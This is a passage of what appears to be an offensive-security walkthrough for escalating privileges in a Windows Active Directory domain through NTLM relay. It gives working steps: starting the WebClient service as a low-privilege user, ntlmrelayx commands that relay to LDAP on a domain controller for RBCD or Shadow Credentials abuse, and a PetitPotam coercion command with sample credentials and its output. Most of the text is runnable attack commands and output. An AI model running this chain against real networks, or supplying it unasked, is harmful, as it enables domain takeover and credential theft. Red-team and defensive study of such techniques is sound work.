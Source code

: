 6. By default, the WebClient service has a Startup Type of Manual (Trigger), which means with the right actions, a low-privilege user can start the service. We can either upload a [.searchConnector-ms file](https://gitlab.com/KevinJClark/ops-scripts/-/tree/main/start_webclient_searchConnector-ms) and view it in an explorer window, or use a [C# script](https://gist.github.com/klezVirus/af004842a73779e1d03d47e041115797) or a [Beacon Object File](https://github.com/outflanknl/C2-Tool-Collection/blob/main/BOF/StartWebClient/SOURCE/StartWebClient.c) to start it.
```
> StartWebClient.exe
[+] WebClient Service started successfully
```
```powershell
get-service -ServiceName WebClient

Status   Name               DisplayName
------   ----               -----------
Running  WebClient          WebClient
```
7. Start an NTLM HTTP capture/relay server on TCP/8888 on the Messenger server host. Set it up for either Shadow Credentials or RBCD relay. Relay to LDAP or LDAPS on a DC without signing/channel binding required. Set it up to use the SOCKS proxy for outgoing traffic.

RBCD Method:
```
# proxychains ntlmrelayx.py -t ldap://dc.borgar.local --no-smb-server --http-port 8888 --no-acl --no-dump --no-da --no-validate-privs --delegate-access
```

Shadow Credentials Method:
```
# proxychains ntlmrelayx.py -t ldap://dc.borgar.local --no-smb-server --http-port 8888 --no-acl --no-dump --no-da --no-validate-privs --shadow-credentials --pfx-pass ''
```
8. Perform authentication coercion using [Printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py), [PetitPotam](https://github.com/topotam/PetitPotam), or [Coercer](https://github.com/p0dalirius/Coercer). Specify a "dotless hostname" (a hostname without dots and not an IP address) for the capture server, with `@<port>/something` afterwards. The dotless hostname can either be the computer's NetBIOS name or just the word `localhost`. This command should also go through the SOCKS proxy.
```
$ proxychains python3 PetitPotam.py -u lowbie -p P@ssw0rd -d borgar.local localhost@8888/something 127.0.0.1
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



Trying pipe lsarpc
[-] Connecting to ncacn_np:127.0.0.1[\PIPE\lsarpc]
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:445  ...  OK
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
```